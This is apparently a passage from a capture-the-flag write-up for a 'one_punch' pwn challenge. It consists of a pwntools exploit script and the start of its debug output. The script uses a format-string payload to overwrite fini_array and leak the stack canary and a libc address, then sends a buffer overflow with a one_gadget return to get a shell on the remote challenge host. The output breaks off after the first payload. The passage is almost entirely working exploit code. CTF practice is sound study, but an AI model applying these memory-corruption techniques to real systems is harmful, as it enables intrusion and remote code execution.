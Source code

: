 Here's my script:
```python
from pwn import *

context.log_level = 'debug'
LOCAL = False
REMOTE = True

if REMOTE:
	p = remote('chall.nitdgplug.org',30095)
if LOCAL:
	#p = process('./chall_one_patched')
	p = gdb.debug('./chall_one_patched')
	log.info("PID: " + str(p.pid))

fini = 0x4031e0
main_addr = 0x00401292
puts_got = 0x4033e0

# ---OVERWRITE FINI_ARRAY, LEAK CANARY, LEAK PUTS_LIBC_ADDR---
payload = "%12$4754x%12$hn|EOF%15$llx%11$s".ljust(40,"A") + p64(puts_got) + p64(fini) 
p.sendlineafter("|\n",payload)

p.recvuntil("|EOF")
canary = long(p.recv(16),16)
log.info("Canary: " + hex(canary))
tmp = (p.recv(8))
s1 = ""
for x in tmp:
	if(x != "A"):
		s1 += x
s1 += chr(0) + chr(0)

puts_libc = u64(s1)
base_libc = puts_libc - 0x84450
log.info("Puts libc address: " + hex(puts_libc))
log.info("Base libc address: " + hex(base_libc))

# ---RET2LIBC---
one_gadget = base_libc + 0xe3b2e
payload = "A"*72 + p64(canary) + p64(0) + p64(one_gadget)
p.sendline(payload)
p.interactive() 
```

OUTPUT:
```console
┌──(kali㉿kali)-[~/Desktop/pwn/foobar_ctf/one_punch]
└─$ python2 solve.py
[+] Opening connection to chall.nitdgplug.org on port 30095: Done
[DEBUG] Received 0x1e bytes:
    'YOU ONLY GET ONE CHANCE SO....'
[DEBUG] Received 0x1c bytes:
    00000000  0a 7c 20 f0  9f 91 8a 20  50 75 6e 63  68 20 68 61  │·| ·│··· │Punc│h ha│
    00000010  72 64 65 72  20 f0 9f 91  8a 20 7c 0a               │rder│ ···│· |·│
    0000001c
[DEBUG] Sent 0x39 bytes:
    00000000  25 31 32 24  34 37 35 34  78 25 31 32  24 68 6e 7c  │%12$│4754│x%12│$hn|│
    00000010  45 4f 46 25  31 35 24 6c  6c 78 25 31  31 24 73 41  │EOF%│15$l│lx%1│1$sA│
    00000020  41 41 41 41  41 41 41 41  e0 33 40 00  00 00 00 00  │AAAA│AAAA│·3@·│····│
    00000030  e0 31 40 00  00 00 00 00  0a                        │·1@·│····│·│
    00000039
[DEBUG] Received 0x1000 bytes:
    ' ' * 0x1000
[DEBUG] Received 0x2f2 bytes:
```